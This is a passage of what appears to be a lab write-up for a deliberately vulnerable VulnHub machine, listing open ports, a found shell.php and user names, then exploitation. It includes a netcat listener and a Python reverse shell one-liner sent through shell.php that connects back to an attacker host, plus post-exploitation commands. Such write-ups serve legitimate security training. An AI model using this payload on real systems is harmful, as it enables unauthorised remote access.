 ``` {.python .numberLines}

```


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp     |  http         |  Apache httpd 2.4.29 ((Ubuntu))
111/tcp    |  rpcbind      |  2-4 (RPC #100000)
137/udp    |  netbios-ns   |  Samba nmbd netbios-ns (workgroup: WORKGROUP)
139/tcp    |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp    |  netbios-ssn  |  Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
2049/tcp   |  nfs_acl      |  3 (RPC #100227)
39393/tcp  |  nlockmgr     |  1-4 (RPC #100021)
43937/tcp  |  mountd       |  1-3 (RPC #100005)
55567/tcp  |  mountd       |  1-3 (RPC #100005)
59061/tcp  |  mountd       |  1-3 (RPC #100005)
```
#### Files
``` {.python .numberLines}
http://192.168.92.173:80/shell.php
```
#### Users
``` {.python .numberLines}
ssh: root, mysql, user1, user2, user3, user4, user5, user6, user7, user8
```

\newpage
## Phase #2: Exploitation
1\. We set up a `netcat` listener and invoke a Python reverse shell:  
``` {.python .numberLines}
nc -nlvp 9999
http://192.168.92.173/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.92.163",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.escalatelinux/screenshot01.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/vulnhub.escalatelinux/screenshot02.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
user6@osboxes> id
uid=1005(user6) gid=1005(user6) groups=1005(user6)
user6@osboxes>  
user6@osboxes> uname
Linux osboxes 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
user6@osboxes>  
user6@osboxes> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
       inet 192.168.92.173  netmask 255.255.255.0  broadcast 192.168.92.255
       inet6 fe80::2e48:398c:348e:b9c9  prefixlen 64  scopeid 0x20<link>
       ether 00:0c:29:a6:a7:b9  txqueuelen 1000  (Ethernet)
       RX packets 266778  bytes 38129187 (38.1 MB)
       RX errors 0  dropped 0  overruns 0  frame 0
       TX packets 263355  bytes 76831868 (76.8 MB)
       TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
user6@osboxes>  
user6@osboxes> users
```